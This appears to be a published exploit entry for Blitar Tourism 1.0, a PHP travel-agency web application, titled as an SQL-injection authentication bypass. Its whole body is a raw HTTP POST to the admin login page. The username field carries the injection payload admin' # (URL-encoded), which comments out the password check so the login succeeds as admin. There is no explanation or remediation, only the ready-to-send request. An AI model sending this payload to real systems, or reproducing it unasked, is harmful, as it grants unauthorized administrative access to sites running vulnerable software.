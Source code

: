 EXP
---

    # Exploit Title: Blitar Tourism 1.0 - Authentication Bypass SQLi
    # Date: 13 April 2021
    # Exploit Author: sigeri94
    # Vendor Homepage: https://sourcecodeaplikasi.info/source-code-aplikasi-biro-travel-berbasis-web/
    # Software Link: https://codeload.github.com/satndy/Aplikasi-Biro-Travel/zip/master
    # Version: 1.0

    POST /travel/Admin/ HTTP/1.1
    Host: 192.168.186.132
    Content-Length: 49
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.186.132
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://192.168.186.132/travel/Admin/
    Accept-Encoding: gzip, deflate
    Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: PHPSESSID=0nr18qfifjk2f5o4kimk5ca312
    Connection: close

    username=admin%27+%23&password=admin&Login=Log+in